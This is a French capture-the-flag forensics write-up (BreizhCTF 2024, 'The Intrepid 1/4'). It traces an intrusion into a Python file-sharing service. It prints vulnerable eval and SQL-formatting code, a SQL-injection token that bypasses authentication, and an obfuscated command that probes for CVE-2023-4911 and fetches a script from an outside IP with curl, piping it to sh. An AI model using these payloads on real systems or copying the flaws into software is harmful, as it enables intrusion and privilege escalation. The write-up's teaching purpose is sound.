


BreizhCTF 2024 - The Intrepid (1/4)
==========================

### Description

**De :** `the-intrepid-journal@notproton.me`  
**À :** `dfir-independant-consulting@notproton.me` (vous)

**Objet :** [`www.dfir-independant-consulting.notcom`] Nouveau contrat : The Intrepid journal

Bonjour,

*The Intrepid* est un journal autonome et collaboratif, auquel chacun peut participer et soumettre des investigations et articles.
Nos auteurs enquêtent majoritairement sur les structures politiques et économiques de grandes envergures.

Pour permettre l'échange d'informations et fichiers sensibles, nous avons récemment développé notre propre service de partage de ressources, nommé "er-bridge".
Un identifiant est associé à chaque ressource, est connu uniquement du téléverseur, et ne peut être accédé qu'une seule fois pour téléchargement, avant d'être détruit. 
Le service est exposé derrière un reverse proxy sur le réseau TOR, et son URL d'accès est en diffusion restreinte. Il est également hébergé dans une machine virtuelle, sur notre serveur.

Cependant, nous avons reçu des plaintes d'utilisateurs, indiquant que leurs identifiants de partage n'étaient pas accessibles par leurs pairs. 
Tout nous porte à croire que quelqu'un télécharge les ressources, impliquant un accès aux identifiants de partage, pourtant transmis de manière unique entre le serveur et l'utilisateur.

Un traceur applicatif est en place sur notre service, afin de monitorer et ajuster notre code, en fonction de l'usage mémoire occasionné par les différents threads. 
Pourriez-vous en analyser les journaux, afin d'identifier si une intrusion s'est produite via l'application ? PS : L'outil d'analyse graphique fonctionne mieux avec l'option `--use_external_processor`, et avec le navigateur Google Chrome.

---

Identifiez :

- Une première charge malveillante, injectée pour contourner l'authentification de l'application
- La CVE utilisée pour élever les privilèges, déductible de la deuxième charge malveillante, ayant réalisée une exécution de code à distance
- Le numéro de thread, durant lequel les charges ont été injectées

Format de flag : `BZHCTF{charge_contournement_authentification|cve_privesc|numero_thread}`  
Exemple de flag : `BZHCTF{'OR(5)#|CVE-2024-3094|487}`

### Fichiers fournis

- er-bridge_source.zip
- viztracer.json.tar.gz

### Inspection du fichier `viztracer.json`

Nous avons à notre disposition un fichier `viztracer.json` : 

```console
$ tar -xf viztracer.json.tar.gz
$ file viztracer.json
viztracer.json: ASCII text, with very long lines (65536), with no line terminators
$ du -sh viztracer.json
224M    viztracer.json
```

Le nom du fichier n'étant certainement pas anodin, nous pouvons chercher son nom sur le Web. Il s'agit d'un fichier produit par l'outil `viztracer`, disponible sur GitHub : 

- https://github.com/gaogaotiantian/viztracer

Comme la description du challenge pouvait nous l'indiquer, il permet de tracer puis visualiser l'exécution de code Python, sous la forme d'une timeline.

Nous disposons ici du résultat d'une capture, et pouvons ainsi la visualiser via la syntaxe suivante : 

```sh
vizviewer result.json
# You can display all the files in a directory and open them in browser too
vizviewer ./
# For very large trace files, try external trace processor
vizviewer --use_external_processor result.json
```

L'installation puis exécution se fait comme suit : 

```sh
$ pip3 install viztracer
$ vizviewer viztracer.json
Running vizviewer
You can also view your trace on http://localhost:9001
Press Ctrl+C to quit
```

Voici ce qui nous est proposé, en accédant à `http://localhost:9001`, dans notre navigateur (Chrome de préférence, voir https://github.com/gaogaotiantian/viztracer/issues/365) :




Il est possible de naviguer via les touches `ZQSD`, entre les différents threads et appels de fonctions. Nous remarquons également une barre de recherche en haut de l'écran.

Afin de ne pas partir à la chasse aux informations à l'aveugle, nous nous intéressons d'abord au code source de l'application `er-bridge`.

### Inspection du code source de l'application

Le fichier `er-bridge_source.zip` contient le code source de l'application mentionnée dans la description :

```console
$ unzip er-bridge_source.zip
Archive:  er-bridge_source.zip
   creating: app/
  inflating: app/.env                
  inflating: app/ascii_banner.py     
  inflating: app/codebase_sha256_sum.txt  
  inflating: app/constants.py        
  inflating: app/db_utils.py         
  inflating: app/file_utils.py       
   creating: app/mysql/
  inflating: app/mysql/.env          
   creating: app/mysql/data/
  inflating: app/mysql/docker-compose.yml  
  inflating: app/requirements.txt    
  inflating: app/server.py           
   creating: app/uploads/
$ tree app 
tree -a app
app
├── ascii_banner.py
├── codebase_sha256_sum.txt
├── constants.py
├── db_utils.py
├── .env
├── file_utils.py
├── mysql
│   ├── data
│   ├── docker-compose.yml
│   └── .env
├── requirements.txt
├── server.py
└── uploads

3 directories, 10 files
```

- `mysql/` : dossier permettant de monter un conteneur MySQL via `docker compose`
- `ascii_banner.py` : fichier générant la bannière affichée en début de connexion
- `db_utils.py` : utilitaires de manipulation de base de données
- `file_utils.py` : utilitaires de chiffrement, déchiffrement, vérification de données
- `server.py` : logique principale de l'application

L'accès à l'application se fait via une connexion TCP (avec l'utilitaire `nc` par exemple), et permet deux choses : 

- Téléverser un fichier (nécessite un token d'authentification)
- Télécharger un fichier

Chaque fichier est chiffré localement par l'algorithme `AES CTR`, et correspond à un identifiant de partage unique, qui n'est transmis qu'une seule fois à l'utilisateur. Il n'est pas conservé en local.

Selon la description, nous devons rechercher deux comportements :

- contournement d'authentification
- exécution de code à distance (comprenant une élévation de privilèges)

Sachant cela, nous pouvons investiguer le code, afin d'identifier de potentielles vulnérabilités.

#### Évaluation de code 

Ligne 119, le code suivant attire notre attention :

```python
def upload(self):
   self.send_ask(f"Indicate the exact file size :")
   file_size = self.recv_wrapper()
   # Verify provided file size
   assert_check = False
   try:
      assert_check = eval(f"0 < int({file_size}) <= {MAX_UPLOAD_FILE_SIZE}")
   except Exception as e:
      self.send_error(
            f"Inadequate file size. Please ensure you specified an integer."
      )
      return None
   if not assert_check:
      self.send_error(
            f"File size exceeds the {MAX_UPLOAD_FILE_SIZE} bytes limit, or is invalid. Upload denied."
      )
      return None
```

L'utilisation de la fonction `eval`, dans un contexte où un utilisateur peut passer des arguments non vérifiés est une vulnérabilité critique dans un code Python. En effet, `eval` permet l'évaluation de code, passé sous la forme d'une chaîne de caractères.

Dans la barre de recherche de `vizviewer`, nous pouvons chercher les références à cette fonction : 


79 appels à `eval` ont été effectué dans la capture. Afin d'éviter de les inspecter un à un, nous pouvons chercher les chaînes d'erreurs, qui auraient potentiellement été renvoyées si du code avait été envoyé, à la place d'un entier (`file_size`). Cherchons "Inadequate file size." :


Un seul thread (qui représente ici un échange client<->serveur) comporte ce message d'erreur. Avec un rapide coup d'oeil, nous pouvons voir que la fonction `builtins.eval` a appelé la fonction `system` du module `os`, permettant d'exécuter du code sur le système, depuis Python. Inspectons le bloc `popen` pour voir ce que `vizviewer` nous propose : 


Nous obtenons de précieuses informations, sur les arguments passés à `popen`, et notamment la commande : 

```sh
a=;env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf "%08192x" 1`" /usr/bin/su --help||cu${a}rl -sk ht${a}tp:${a}/${a}/82.${a}105${a}.114${a}.${a}101/down1.0|s${a}h &
```

Au premier coup d'oeil, nous remarquons plusieurs éléments suspicieux : 

- Un appel à `/usr/bin/su`
- La récupération d'un contenu distant, sur un serveur HTTP, et son exécution dans un `shell`
- Une tentative d'obfuscation

Pour y voir plus clair, nous pouvons retirer les caractères `${a}`, qui sont en réalité une substitution par un caractère vide : 

```sh
# Utilisation de sed, avec le délimiteur "@" : s@CHAINE_RECHERCHEE@CHAINE_DE_REMPLACEMENT@g
$ echo 'a=;env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf "%08192x" 1`" /usr/bin/su --help||cu${a}rl -sk ht${a}tp:${a}/${a}/82.${a}105${a}.114${a}.${a}101/down1.0|s${a}h &' | sed 's@${a}@@g'

a=;env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf "%08192x" 1`" /usr/bin/su --help||curl -sk http://82.105.114.101/down1.0|sh &
```

L'énoncé nous demande de retrouver la CVE utilisée pour élever les privilèges, déductible de la charge malveillante ayant exécuté du code. Il semblerait que l'attaquant ait cherché à vérifier la vulnérabilité du système, avant d'exécuter une seconde charge. Le mot clé `GLIBC_TUNABLES` n'est pas commun, nous pouvons le chercher sur Google : https://www.google.com/search?q=GLIBC_TUNABLES. 

Dans les premiers résultats, des références à `CVE-2023-4911 Looney Tunables Exploit` apparaissent. Avec quelques recherches additionnelles, nous pouvons même retrouver la commande sur le GitHub https://github.com/ruycr4ft/CVE-2023-4911 :



Nous connaissons désormais la CVE employée, ainsi que le numéro de thread malveillant (`75`). Étant donné que l'accès à la fonction de téléversement de l'application nécessite un token d'authentificatiion, il est probable que la charge malveillante de contournement d'authentification soit présente dans les fonctions du thread 75.

#### Contournement d'authentification

L'authentification est réalisée par le code suivant :

```python
def authenticate(self):
   _now = datetime.now()
   self.send_ask(f"Enter your token :")
   _token = self.recv_wrapper()
   if not self.regex_check_token(_token):
      return False
   self.token = _token
   user = self.db_conn.select_one(
      "SELECT token, expire_time FROM tokens WHERE token='%s'", (self.token,)
   )
```

Le token est vérifié par la fonction `regex_check_token` : 

```python
def regex_check_token(self, token: str):
   regex = r"^[0-9a-f]{1,64}$|^\$[0-9a-f_]{32}\$"  # Handle previous token format for now
   if not re.match(regex, token):
      self.send_error(f"Invalid token.")
      return False
   else:
      return True
```

L'expression régulière (regex) accepte deux formats : 

- `^[0-9a-f]{1,64}$` : Une chaîne de caractères hexadécimale, d'une taille comprise entre 1 et 64
- `^\$[0-9a-f_]{32}\$` Une chaîne **commençant** par un `$`, suivie de 32 caractères hexadécimaux (pouvant inclure des tirets du bas) puis d'un autre `$`.

Ici, l'erreur peut être subtile, car le caractère `$` est employé pour signifier la fin de l'expression régulière, mais il semble également être utilisé dans l'ancien format de token, comme délimiteur de début et de fin ! La version corrigée serait : 

- `^\$[0-9a-f_]{32}\$`**`$`**

En l'état, il est donc possible de passer un token, qui sera considéré valide, mais avec de potentiels caractères indésirables :

```python
$ python3
>>> import re
>>> re.match("^\$[0-9a-f_]{32}\$", "$aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa$CHAINE_NON_RESTREINTE_PAR_REGEX")
<re.Match object; span=(0, 34), match='$aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa$'> 
```

Vérifions désormais si le code en charge de la requête SQL est sécurisé ("db_utils.py") : 

```python
def select_one(self, query: str, values: tuple = (), dict=False):
   """Wrapper for fetchone()"""

   cursor = self.conn.cursor(dictionary=dict)
   cursor.execute(query % values)
   res = cursor.fetchone()
   cursor.close()

   return res
```

Mauvaise nouvelle, les paramètres passés dans la requête `user = self.db_conn.select_one("SELECT token, expire_time FROM tokens WHERE token='%s'", (self.token,))` sont au format brut, et peuvent être utilisés pour injecter du code SQL (voir l'exemple ici : https://knowledge-base.secureflag.com/vulnerabilities/sql_injection/sql_injection_python.html#vulnerable-example).

Ce faisant, nous pouvons déduire que l'attaquant a pu envoyer un token malicieux à l'application. Pour vérifier cela, regardons les paramètres passés à `regex_check_token` dans le thread 75 :


Comme suspecté, un token `$2e5f2ec2ac4b58637c4f5f58032e5f2e$'||(1&&id=300);` a été envoyé à l'application, réalisant une injection SQL contournant l'authentification. Ici, la première partie permet de valider la regex, puis ensuite de sortir de la requête et usurper le token de l'utilisateur ayant l'id 300.

### Flag

- Une première charge malveillante, injectée pour contourner l'authentification de l'application : `$2e5f2ec2ac4b58637c4f5f58032e5f2e$'||(1&&id=300);`
- La CVE utilisée pour élever les privilèges, déductible de la deuxième charge malveillante, ayant réalisée une exécution de code à distance : `CVE-2023-4911`
- Le numéro de thread, durant lequel les charges ont été injectées : `75`

`BZHCTF{$2e5f2ec2ac4b58637c4f5f58032e5f2e$'||(1&&id=300);|CVE-2023-4911|75}`
